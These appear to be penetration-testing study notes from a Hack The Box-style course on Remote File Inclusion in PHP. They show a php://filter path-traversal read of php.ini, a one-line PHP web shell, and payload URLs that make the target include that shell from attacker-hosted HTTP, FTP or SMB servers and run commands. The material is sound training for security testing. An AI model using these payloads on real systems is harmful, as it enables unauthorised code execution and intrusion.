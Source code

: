 A table of functions that will allow to include remote files (Remote URL) can be found in the end of [[Attacks/Web/SQL Injection/MariaDB (MySQL)/In-band/Union Based/Intro]], in case that code execution isn't allowed we can still use it for enumeration trough SSRF.

To verify for RFI we should first look for the `allow_url_include` setting.

The PHP configuration file location is (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`) for Nginx, x.y is the version (we can start from top to bottom) and use base64 filter, it's also adviced to use burp or cURL for this:
```shell-session
Wildland4958@htb[/htb]$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/<version>/apache2/php.ini"
```

Decode the configuration and find the `allow_url_include` setting:
```shell-session
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

A more reliable way to determine if the function is vulnerable is to try and include a URL, we should start with a local one like:
```url
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php
```

If we get the page and not the source code it means that RCE is possible as well.

**Note:** It may not be ideal to include the vulnerable page itself (i.e. index.php), as this may cause a recursive inclusion loop and cause a DoS to the back-end server.

## Remote Code Execution with RFI

The first step is to create a malicious script in the language of the web app.

Example for PHP script:
```shell-session
Wildland4958@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

## HTTP

Start a Python web server:
```shell-session
Wildland4958@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
```

Include a file with your IP and port:
```url
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

**Tip:** We can examine the connection on our machine to ensure the request is being sent as we specified it. For example, if we saw an extra extension (.php) was appended to the request, then we can omit it from our payload

## FTP

Start basic FTP server with Python:
```shell-session
Wildland4958@htb[/htb]$ sudo python -m pyftpdlib -p 21
```

We can specify credentials in the URL if needed as follow:
```shell-session
Wildland4958@htb[/htb]$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@<attacker ip>/<payload>&cmd=id'
```

## SMB

If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the `allow_url_include` setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion. This is because Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path.

Use Impacket's smbserver.py to spin up an SMB server:
```shell-session
Wildland4958@htb[/htb]$ impacket-smbserver -smb2support share $(pwd)
```

Include a script:
```url
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```